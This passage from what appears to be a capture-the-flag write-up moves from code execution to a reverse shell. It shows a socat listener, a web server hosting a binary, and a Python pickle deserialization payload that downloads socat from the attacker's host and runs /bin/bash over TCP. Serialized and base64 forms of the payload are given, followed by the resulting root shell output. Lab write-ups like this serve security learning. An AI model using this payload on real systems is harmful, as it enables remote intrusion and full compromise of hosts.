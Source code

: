Nice! We have code execution!

Let's get a reverse shell!

- Setup a listener:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:38:11]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/01/13 08:38:12 socat[70824] N opening character device "/dev/pts/1" for reading and writing
2023/01/13 08:38:12 socat[70824] N listening on AF=2 0.0.0.0:443
```

```shell
┌[root♥siunam]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.01.13|08:39:07]-[git://master ✗]-
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Send the payload: (Generated from [revshells.com](https://www.revshells.com/))

```py
return (os.system,("wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane ",))
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:40:46]
└> python unpickle.py
[*] Before serialized: <__main__.Exploit object at 0x7f420bbcc220>
[*] Serialized: b"\x80\x04\x95\xa7\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x8cwget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane \x94\x85\x94R\x94."
[*] Base64 encoded: b'gASVpwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjIx3Z2V0IGh0dHA6Ly8xMC45LjAuMjUzL3NvY2F0IC1PIC90bXAvc29jYXQ7Y2htb2QgK3ggL3RtcC9zb2NhdDsvdG1wL3NvY2F0IFRDUDoxMC45LjAuMjUzOjQ0MyBFWEVDOicvYmluL2Jhc2gnLHB0eSxzdGRlcnIsc2V0c2lkLHNpZ2ludCxzYW5lIJSFlFKULg=='
[*] Sending a GET request to /search, so we can trigger the payload...

```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:38:11]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/01/13 08:38:12 socat[70824] N opening character device "/dev/pts/1" for reading and writing
2023/01/13 08:38:12 socat[70824] N listening on AF=2 0.0.0.0:443
                                                                2023/01/13 08:41:04 socat[70824] N accepting connection from AF=2 10.10.49.15:59318 on AF=2 10.9.0.253:443
                                                               2023/01/13 08:41:04 socat[70824] N starting data transfer loop with FDs [5,5] and [7,7]
                                           root@8b39a559b296:/home# 
root@8b39a559b296:/home# export TERM=xterm-256color
root@8b39a559b296:/home# stty rows 22 columns 107
root@8b39a559b296:/home# whoami;hostname;id;ip a
root
8b39a559b296
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
root@8b39a559b296:/home# ^C
root@8b39a559b296:/home# 
```
